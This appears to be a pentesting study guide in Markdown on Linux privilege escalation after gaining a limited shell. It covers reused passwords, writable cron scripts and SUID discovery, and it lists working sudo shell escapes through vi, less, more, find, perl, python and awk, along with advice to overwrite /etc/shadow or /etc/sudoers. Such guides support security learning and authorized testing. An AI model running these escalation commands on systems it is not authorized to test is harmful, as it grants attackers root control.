 # Privilege Escalation

So you have a limited shell on the machine. But it is limited. For example: 

You can't hide very effectivly. 
You can't bind ports below 1024.
Read and write any file
Persist easily between reboots.

These are all things we want to be able to do.
Watch this video!
http://www.irongeek.com/i.php?page=videos/bsidesaugusta2016/its-too-funky-in-here04-linux-privilege-escalation-for-fun-profit-and-all-around-mischief-jake-williams

http://www.slideshare.net/nullthreat/fund-linux-priv-esc-wprotections

http://netsec.ws/?p=309

**Don't use binary exploits if you can avoid it. If you use it it might crash the machine. So binary exploits should be the last resort. Always use a simpler priv-esc if you can. They can also produce a lot of stuff in the sys.log**

## Linux

### Weak or reused passwords

If there is a web-server, check the connection to the database. Try that password. Also log into the database with the user you found. Is there a admin-account that might be reusing passwords?

Config-files
postfix
newsbeauter

### Configuration mistakes

#### Programs running as root
**Web-server**
Running as root

**Mysql**

#### Bad path configuration
Putting . in the path

#### **Cronjob** 
With privileges running script that are editable for other users. 

#### World writable scripts invoked as root
World/user writable scripts that are invoked by root can me rewritten to escalate privileges.

Also check scripts that are called by these scripts.

```
#World writable files directories
find / -writable -type d 2>/dev/null
find / -perm -222 -type d 2>/dev/null
find / -perm -o w -type d 2>/dev/null

# World executable folder
find / -perm -o x -type d 2>/dev/null

# World writable and executable folders
find / \( -perm -o w -perm -o x \) -type d 2>/dev/null
```


#### World/user writable binaries

#### Weak permissions on LD_preload

#### Homemade crappy suid programs
**SUID files**

SUID is a bit that you can set on a file. If you run a binary the binary is run as the user who is running it. But if the binary has the SUID-bit it will be run as the owner of that binary. This can be abused.

Here is how you find SUID files:
```
find / -perm -u=s -type f 2>/dev/null
```

Run ltrace on them to see what they do.

#### Setuid/setuig

SUID is a bit that you can set on a file. If you run a binary the binary is run as the user who is running it. But if the binary has the SUID-bit it will be run as the owner of that binary. This can be abused.
Any editor with a setudi/setuig can be abused.

**nmap**
SUID on nmap.

Find them

```
#Find SUID
find / -perm -u=s -type f 2>/dev/null

#Find GUID
find / -perm -g=s -type f 2>/dev/null
```

### Abusing sudo-rights

If you have a shell that has limited sudo programs you might still be able to use it. Any program that can write or overwrite can be used. If you have `cp` you can overwrite `/etc/shadow` or `/etc/sudoers`. 
**ht**
The text/binary-editor HT running as sudo

**nano**

**vi/vim**
With vi it is even easier. Just open vi
```
sudo vi
:shell

:set shell=/bin/bash:shell	
:!bash
```
And you have shell.

**less**
From less you can go into vi, and then into a shell
```
sudo less /etc/shadow
v
:shell
```

**more**
You need to run more on a file that is bigger than your screen.
```
sudo more /home/pelle/myfile
!/bin/bash
```

**cp**
Copy and overwrite /etc/shadow

**mv**
Overwrite /etc/shadow or /etc/sudoers

**find**

```
sudo find / -exec bash -i \;

find / -exec /usr/bin/awk 'BEGIN {system("/bin/bash")}' ; 
```

**python/perl/ruby/lua/etc**

```
sudo perl
exec "/bin/bash";
ctr-d
```

```
sudo python
import os
os.system("/bin/bash")
```

**nmap**

**awk**

```
awk 'BEGIN {system("/bin/bash")}'
```

**bash**

**sh**

**man**

**nc**

**netcat**

**ruby**

**lua**

**irb** 



### Software vulnerabilites

Software vulnerabilites can lead to priv-esc, like vulnerabiliteis in:
- Kernel
```
uname -a
/etc/issue*
/etc/release
```

**Tools**
```
# Programming tools
find / -name perl*
find / -name python*
find / -name gcc*
find / -name cc

#Upload tools
find / -name wget
find / -name nc*
find / -name netcat*
find / -name tftp*
find / -name ftp
```



#### Binary expoits against root owned binaries
- sudo
- Chrootkit


## Windows

## References
https://www.trustwave.com/Resources/SpiderLabs-Blog/My-5-Top-Ways-to-Escalate-Privileges/